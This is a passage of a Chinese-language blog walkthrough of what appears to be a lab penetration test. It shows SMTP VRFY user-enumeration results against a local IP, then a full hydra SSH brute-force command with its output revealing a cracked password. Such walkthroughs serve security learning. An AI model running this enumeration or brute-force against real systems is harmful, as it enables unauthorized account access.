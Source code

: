 <p>192.168.1.109: sshd exists</p>
<p>192.168.1.109: sync exists</p>
<p>192.168.1.109: sys exists</p>
<p>192.168.1.109: syslog exists</p>
<p>192.168.1.109: user exists</p>
<p>192.168.1.109: uucp exists</p>
<p>192.168.1.109: www-data exists</p>
</blockquote><h1>结果验证：</h1><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-0a6f89adddf3f7fa.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p>用VRFY命令验证：如果用户存在，那么显示252，如果用户不存在，显示550。</p><h1>ssh爆破：</h1><p>爆破其实就是一个字典+运气的问题，在这里我作弊了，em.............不作弊的话，应该将搜集到的所有用户名加入到一个字典里。</p><blockquote><p>hydra -l user -P /root/Desktop/pass.txt 192.168.1.109 ssh -t 4</p></blockquote><blockquote>
<p>结果：[DATA] attacking ssh://192.168.1.109:22/</p>
<p>[22][ssh] host: 192.168.1.109   login: user   password: <b>letmein</b></p>
<p>1 of 1 target successfully completed, 1 valid password found</p>
</blockquote><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-93b2cde8083c3872.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p><a href="https://www.jianshu.com/p/af9132c8a268" target="_blank">下篇：https://www.jianshu.com/p/af9132c8a268</a></p>
        </div>
      </div>
    </div>
  </body>
</html>
